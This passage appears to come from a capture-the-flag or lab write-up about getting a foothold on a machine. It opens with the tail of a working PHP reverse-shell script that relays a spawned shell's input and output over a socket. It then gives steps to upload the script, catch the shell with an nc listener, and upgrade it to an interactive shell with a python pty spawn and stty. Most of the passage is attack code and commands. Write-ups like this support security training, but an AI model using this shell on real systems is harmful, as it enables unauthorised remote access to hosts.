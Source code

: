 ```bash
                if ($debug) printit("SOCK: $input");
                fwrite($pipes[0], $input);
        }

        if (in_array($pipes[1], $read_a)) {
                if ($debug) printit("STDOUT READ");
                $input = fread($pipes[1], $chunk_size);
                if ($debug) printit("STDOUT: $input");
                fwrite($sock, $input);
        }

        if (in_array($pipes[2], $read_a)) {
                if ($debug) printit("STDERR READ");
                $input = fread($pipes[2], $chunk_size);
                if ($debug) printit("STDERR: $input");
                fwrite($sock, $input);
        }
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
        if (!$daemon) {
                print "$string\n";
        }
}

?>
```

Then upload it and set a nc listening to your port

#### ouput

After that check the nc listening port you will have got the shell Successfully obtained a shell with `matt privileges`

![[userroot.png]]


## Takeover
 After geting the reverse shell we have to do some adjusment to our shell to make it ready for using by doing a stty escalation to get an interactive shell:and to ensure we have the shell back instead if any small error
 #### code-stty
 ```bash
 python3 -c 'import pty;pty.spawn("/bin/bash")'
 [ctrl] + z
 stty raw -echo
 fg [Enter] two times
 ```
 